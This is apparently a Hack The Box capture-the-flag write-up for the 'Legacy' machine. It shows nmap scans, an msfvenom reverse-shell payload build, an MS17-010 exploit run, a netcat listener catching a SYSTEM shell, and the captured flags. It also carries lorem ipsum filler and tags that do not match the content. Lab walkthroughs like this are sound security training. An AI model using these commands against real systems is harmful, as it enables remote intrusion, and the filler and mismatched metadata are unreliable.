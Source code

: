 ```yaml
---
layout: single
title: Legacy - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-04-14
classes: wide
header:
  teaser: /assets/images/htb-writeup-legacy/legacy_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-legacy/legacy_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb]# nmap -Pn -n -sCV 10.10.10.4 --open                                                                               (master✱)
    PORT    STATE SERVICE      VERSION
    139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp open  microsoft-ds Windows XP microsoft-ds
    Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

    Host script results:
    |_clock-skew: mean: 5d01h01m15s, deviation: 1h24m50s, median: 5d00h01m15s
    |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:11:0b (VMware)
    | smb-os-discovery:
    |   OS: Windows XP (Windows 2000 LAN Manager)
    |   OS CPE: cpe:/o:microsoft:windows_xp::-
    |   Computer name: legacy
    |   NetBIOS computer name: LEGACY\x00
    |   Workgroup: HTB\x00
    |_  System time: 2021-03-01T12:38:45+02:00
    | smb-security-mode:
    |   account_used: <blank>
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smb2-time: Protocol negotiation failed (SMB2)


  [root:/git/htb]# nmap -p139,445 --script vuln 10.10.10.4                                                                          (master✱)
    PORT    STATE SERVICE
    139/tcp open  netbios-ssn
    445/tcp open  microsoft-ds

    Host script results:
    |_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
    | smb-vuln-ms08-067:
    |   VULNERABLE:
    |   Microsoft Windows system vulnerable to remote code execution (MS08-067)
    |     State: LIKELY VULNERABLE
    |     IDs:  CVE:CVE-2008-4250
    |           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
    |           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
    |           code via a crafted RPC request that triggers the overflow during path canonicalization.
    |
    |     Disclosure date: 2008-10-23
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
    |_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
    |_smb-vuln-ms10-054: false
    |_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
    | smb-vuln-ms17-010:
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143


2. ms17-010 is the obvious attack path here, lets exploit it.

a) Download the script 'send_and_execute.py'
b) Create your malicious payload:
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4488 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe

c) Execute!
    [root:/git/htb/legacy]# python send_and_execute.py 10.10.14.10 ms17-010.exe                                                       (master✱)
      Traceback (most recent call last):
        File "send_and_execute.py", line 2, in <module>
          from impacket import smb, smbconnection
      ImportError: No module named impacket

d) If you get the error like above, it's because your python2 version is to new.
  d1) uninstall pip3: sudo apt-get remove python3-pip
  d2) Get pip3 installer: curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
  d3) Install pip3: python3 get-pip.py
  d4) Get pip2 installer: curl https://bootstrap.pypa.io/2.7/get-pip.py -o get-pip.py
  d5) Install pip2: python get-pip.py
  d6) Now you can install any pip2 modules: pip install impacket
  d7) Make sure your python and python-pip are compatible. Python version 2.7.18 and pip 20.3.4 is preffered.

    [root:/git/htb/legacy]# python -m pip -V                                                                                          (master✱)
      pip 20.3.4 from /usr/local/lib/python2.7/dist-packages/pip (python 2.7)

    [root:/git/htb/legacy]# python -V                                                                                                 (master✱)
      Python 2.7.18

e) EXECUTE EXPLOIT AGAIN!
    [root:/git/htb/legacy]# python send_and_execute.py 10.10.10.4 ms17-010.exe                                                        (master✱)
      Trying to connect to 10.10.10.4:445
      Traceback (most recent call last):
        File "send_and_execute.py", line 1077, in <module>
          exploit(target, port, pipe_name)
        File "send_and_execute.py", line 794, in exploit
          conn = MYSMB(target, port)
        File "/git/htb/legacy/mysmb.py", line 118, in __init__
          smb.SMB.__init__(self, remote_host, remote_host, timeout=timeout)
        File "/usr/local/lib/python2.7/dist-packages/impacket/smb.py", line 2434, in __init__
          self._sess = nmb.NetBIOSTCPSession(my_name, remote_name, remote_host, host_type, sess_port, self.__timeout)
        File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 893, in __init__
          timeout=timeout, local_type=local_type, sock=sock)
        File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 752, in __init__
          self._sock = self._setup_connection((remote_host, sess_port), timeout)
        File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 904, in _setup_connection
          raise socket.error("Connection error (%s:%s)" % (peer[0], peer[1]), e)
      socket.error: [Errno Connection error (10.10.10.4:445)] timed out

f) If above happens, reboot the box and execute a third time.
    [root:/git/htb/legacy]# python send_and_execute.py 10.10.10.4 ms17-010.exe                                                        (master✱)
      Trying to connect to 10.10.10.4:445
      Target OS: Windows 5.1
      Using named pipe: browser
      Groom packets
      attempt controlling next transaction on x86
      success controlling one transaction
      modify parameter count to 0xffffffff to be able to write backward
      leak next transaction
      CONNECTION: 0x82208430
      SESSION: 0xe1a57430
      FLINK: 0x7bd48
      InData: 0x7ae28
      MID: 0xa
      TRANS1: 0x78b50
      TRANS2: 0x7ac90
      modify transaction struct for arbitrary read/write
      make this SMB session to be SYSTEM
      current TOKEN addr: 0xe2116d30
      userAndGroupCount: 0x3
      userAndGroupsAddr: 0xe2116dd0
      overwriting token UserAndGroups
      Sending file KCC2VY.exe...
      Opening SVCManager on 10.10.10.4.....
      Creating service vteS.....
      Starting service vteS.....
      The NETBIOS connection with the remote host timed out.
      Removing service vteS.....
      ServiceExec Error on: 10.10.10.4
      nca_s_proto_error
      Done

    [root:/opt/impacket]# nc -lvnp 4488                                                                                                (master)
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.4] 1031
      Microsoft Windows XP [Version 5.1.2600]
      (C) Copyright 1985-2001 Microsoft Corp.

      C:\WINDOWS\system32>

      C:\Documents and Settings\john\Desktop>type user.txt
        e69af0e4f443de7e36876fda4ec7644f

      C:\Documents and Settings\Administrator\Desktop>type root.txt
        993442d258b0e0ec917cae9e695d5713


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. -

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

send_and_execute.py
  https://github.com/helviojunior/MS17-010

mysmb.py
  https://github.com/worawit/MS17-010/blob/master/mysmb.py

no module named impacket fix:
  https://webcache.googleusercontent.com/search?q=cache:w_5LbLWkSMwJ:https://stackoverflow.com/questions/66087250/fix-for-kali-impacket-issues-between-python-2-and-3-2020-4+&cd=4&hl=sv&ct=clnk&gl=se
